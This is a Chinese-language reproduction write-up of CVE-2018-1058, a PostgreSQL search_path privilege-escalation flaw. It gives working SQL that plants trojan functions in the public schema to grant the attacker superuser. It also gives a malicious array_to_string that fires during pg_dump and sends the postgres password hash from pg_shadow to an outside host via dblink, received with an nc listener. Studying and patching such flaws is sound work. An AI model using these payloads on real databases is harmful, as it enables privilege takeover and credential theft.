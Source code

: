 （CVE-2018-1058）PostgreSQL 提权漏洞
====================================

一、漏洞简介
------------

PostgreSQL
是一款关系型数据库。其9.3到10版本中存在一个逻辑错误，导致超级用户在不知情的情况下触发普通用户创建的恶意代码，导致执行一些不可预期的操作。

二、漏洞影响
------------

PostgreSQL 9.3-10

三、复现过程
------------

### 利用方式

在Postgres的commit记录中，有如下[commit](https://github.com/postgres/postgres/commit/5770172cb0c9df9e6ce27c507b449557e5b45124):

    As special exceptions, the following client applications behave as documented
    regardless of search_path settings and schema privileges: clusterdb
    createdb createlang createuser dropdb droplang dropuser ecpg (not
    programs it generates) initdb oid2name pg_archivecleanup pg_basebackup
    pg_config pg_controldata pg_ctl pg_dump pg_dumpall pg_isready
    pg_receivewal pg_recvlogical pg_resetwal pg_restore pg_rewind pg_standby
    pg_test_fsync pg_test_timing pg_upgrade pg_waldump reindexdb vacuumdb
    vacuumlo.  Not included are core client programs that run user-specified
    SQL commands, namely psql and pgbench.

上面的commit提到了两类的client
applications。下文的较为直观的利用方式一是针对第二类client
applications（比如psql），然后利用方式二是通过第一类client
applications来执行任意代码，相比较下更为隐蔽。

### 利用方式一

在系统schema`pg_catalog`中，定义了大量的函数，用pgAdmin3查看:

![1.png](resource/(CVE-2018-1058)PostgreSQL提权漏洞/media/rId27.png)

以函数abs系列为例，接受一个类型为bigint\\smallint\\intger\\real\\double
precision\\numeric的参数，返回其绝对值。倘若我们传送一个非数值类型的参数呢，比如text，

    evil=> select abs('chybeta');

由于并没有参数类型为text的abs函数，会直接报错：

![2.png](resource/(CVE-2018-1058)PostgreSQL提权漏洞/media/rId28.png)

但postgres提供了自定义函数的功能！我们创建如下函数：

    CREATE FUNCTION public.abs(TEXT) RETURNS TEXT AS $$
         SELECT 'you are hacked by ' || $1;
    $$ LANGUAGE SQL IMMUTABLE;

当我们再次执行同样的查询语句，根据postgres的设计流程，它会先去查找系统schema`pg_catalog`，但由于参数类型不同没有找到，接着按照`search_path`中的顺序查找，而我们定义的`abs(text)`存在于schema`public`中，参数符合，因此pg理所当然地执行了我们定义的函数:

![3.png](resource/(CVE-2018-1058)PostgreSQL提权漏洞/media/rId29.png)

注意一个点，这个函数是定义在schema`public`中的，也就是说对于进入到这个数据库的任何用户，只要他们调用了abs，且参数为text，都有可能会诱发恶意的代码执行。比如以超级用户postgres执行:

![4.png](resource/(CVE-2018-1058)PostgreSQL提权漏洞/media/rId30.png)

不过有谁会傻乎乎的去运行一个莫名其妙的abs(text)呢？因此真正的攻击手段是将过程隐藏到看似正常的数据库查询中。这次我们选择schema`pg_catalog`中的另外一类函数比如lower(text)，upper(text)，它们分别将text类型的参数转成小写和大写，不过系统没有提供接受varchar参数的lower和upper，尽管可以进行类型转换，但对pg而言，最好的选择当然是参数类型恰好符合的恶意自定义函数。

创建一个表，值的类型为varchar：

    CREATE TABLE public.hahahaha AS SELECT 'CHYBETA'::varchar AS contents;

创建对应的恶意函数:

    CREATE FUNCTION public.lower(varchar) RETURNS TEXT AS $$
         SELECT 'you are hacked by ' || $1;
    $$ LANGUAGE SQL IMMUTABLE;

对绝大部分用户而言，他们可能看大写的`CHYBETA`不爽，然后执行了lower函数，但在不知道/清楚类型的情况下，他们执行的是public中的恶意自定义函数。

![5.png](resource/(CVE-2018-1058)PostgreSQL提权漏洞/media/rId31.png)

只能打印`you are hacked by XXX`有毛用！！由于恶意自定义函数可以被超级用户调用到，因此也就有了相应的执行权限，最简单的比如提权。

先来看看权限情况（以超级用户为例），可以看到只有postgres的rolsuper是t，即true:

![6.png](resource/(CVE-2018-1058)PostgreSQL提权漏洞/media/rId32.png)

在用户chybeta登陆进evil数据库后，他创建了如下`upper函数`:

    CREATE FUNCTION public.upper(varchar) RETURNS TEXT AS $$
        ALTER ROLE chybeta SUPERUSER;
        SELECT pg_catalog.upper($1);
    $$ LANGUAGE SQL VOLATILE;

![7.png](resource/(CVE-2018-1058)PostgreSQL提权漏洞/media/rId33.png)

注意这里是`VOLATILE`，具体原因参考
[官方文档:xfunc-volatility](https://www.postgresql.org/docs/8.2/static/xfunc-volatility.html)

另外一张table，小写的chybeta:

    CREATE TABLE public.hehehehe AS SELECT 'chybeta'::varchar AS contents;

管理员一看，心中不爽：小写小写就知道小写，然后:

![8.png](resource/(CVE-2018-1058)PostgreSQL提权漏洞/media/rId35.png)

看上去一切正常，大写的大写。回到用户chybeta处，查看一下权限:

![9.png](resource/(CVE-2018-1058)PostgreSQL提权漏洞/media/rId36.png)

已经成为超级用户。

利用方法有很多，理论上只要能创建恶意函数，管理员调用，就是以管理员身份去执行恶意sql语句/代码。在这种情况中，如commit所说`Not included are core client programs that run user-specified SQL commands, namely psql and pgbench.`，被攻击用户是知道自己执行的sql语句，只是其中的某个function意义被掉包了。

### 利用方式二

安装完PostgreSQL后还会有一系列的工具，比如pg\_dump、pg\_dumpall等等。基于利用方式一，在创建了恶意函数的基础之上，可以通过这些工具来执行恶意函数。这些工具在执行过程中会动态设定`search_path`，导致`public`的优先级比`pg_catalog`高，也就是说即使是在相同类型相同参数相同函数名的情况下，会选择`public`中的函数。相比第一种而言隐蔽性更强，同时有更高的可触发性。

为利用pg\_dump中的sql语句，可以利用log来观察执行过程。在superuser的权限下`show log_directory;`找到log目录，将目录下postgresql.conf中的约莫455行改为`log_statement = all`。重启PostgreSQL后，使用pg\_dump工具执行备份命令:

    pg_dump -U postgres -f evil.bak evil

同时观察log输出，查找`statement: SET search_path =`，最后在某处我发现了一段这样的log:![10.png](resource/(CVE-2018-1058)PostgreSQL提权漏洞/media/rId38.png)

可以看到在这段log中，有一处的`array_to_string`是没有指定schema的。在系统schema中它的定义如下：

![11.png](resource/(CVE-2018-1058)PostgreSQL提权漏洞/media/rId39.png)

在这里由于已经设定了`search_path`，为了能直接适配，这里创建的恶意函数的参数个数和类型都必须和`pg_catalog`中定义的相同，倘若不同则会按顺序匹配到正确的函数。

因为pg\_dump在运行过程中开启的是`read only transaction`，根据[官方文档](https://www.postgresql.org/docs/9.1/static/sql-set-transaction.html)：

    The transaction access mode determines whether the transaction is read/write or read-only. Read/write is the default. When a transaction is read-only, the following SQL commands are disallowed: INSERT, UPDATE, DELETE, and COPY FROM if the table they would write to is not a temporary table; all CREATE, ALTER, and DROP commands; COMMENT, GRANT, REVOKE, TRUNCATE; and EXPLAIN ANALYZE and EXECUTE if the command they would execute is among those listed. This is a high-level notion of read-only that does not prevent all writes to disk.

是不允许执行下类操作的:

1.  INSERT, UPDATE, DELETE, COPY FROM
2.  all CREATE, ALTER, and DROP commands
3.  COMMENT, GRANT, REVOKE, TRUNCATE; and EXPLAIN ANALYZE and EXECUTE if
    the command they would execute is among those listed

不过并没有禁止`select`语句。如果开启了dblink，则可以利用查询来带出数据，比如用dblink\_connect。因此我们创建这样的一个恶意函数：

    CREATE FUNCTION public.array_to_string(anyarray,text) RETURNS TEXT AS $$
        select dblink_connect((select 'hostaddr=192.168.248.132 port=12345 user=postgres password=chybeta sslmode=disable dbname='||(SELECT passwd FROM pg_shadow WHERE usename='postgres'))); 
        SELECT pg_catalog.array_to_string($1,$2);
    $$ LANGUAGE SQL VOLATILE;

远程vps上监听：

    nc -lvv 12345

当管理员进行数据库备份时：

    pg_dump -U postgres -f evil.bak evil

![12.png](resource/(CVE-2018-1058)PostgreSQL提权漏洞/media/rId41.png)

即可得到管理员密码：

![13.png](resource/(CVE-2018-1058)PostgreSQL提权漏洞/media/rId42.png)

参考链接
--------

> https://xz.aliyun.com/t/2109\#toc-1
